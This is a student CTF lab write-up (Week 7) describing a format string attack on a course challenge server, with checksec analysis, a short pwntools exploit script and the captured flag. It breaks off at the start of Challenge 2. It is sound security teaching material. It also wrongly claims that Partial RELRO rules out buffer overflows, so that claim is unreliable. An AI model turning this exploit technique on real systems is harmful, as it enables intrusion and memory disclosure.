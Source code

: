 # Trabalho realizado na semana #7

## CTF 

### Week 7 - Challenge 1

After executing <kbd>checksec program</kbd> we got the following output:

![](https://i.imgur.com/UeyzYy1.png)

We noticed that this program has Partial RELRO. This means there is no risk of a buffer overflow.
There is also a stack canary, meaning a stack buffer overflow will be detected before execution of a malicious code can occur.
Because NX is enabled, attackers are prevented from being able to jump to custom shellcode that they've stored on the stack or in a global variable. 
There is no PIE so ROP attacks aren't difficulted.

After exploring the source code, we found some important information:

- In line 27, a user input is printed, and the user has control over the first argument of printf leading to memory leaks vulnerabilities like reading or changing the value of variables.

![](https://i.imgur.com/ua2btyo.png)

- Using gdb we found the address of the flag

![](https://i.imgur.com/ghDYYM4.png)

After this, we used printf function to make a format string attack and altered the following pyhton code to get the flag:

```
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```
flag:
```
flag{5c1a043f0fca299a77b701282ef08c70}
```
### Week 7 - Challenge 2

After executing <kbd>checksec program</kbd> we got the same output as the previous challenge, so we already knew what we were dealing with:

![](https://i.imgur.com/UeyzYy1.png)

After exploring the source code, we found some important information:
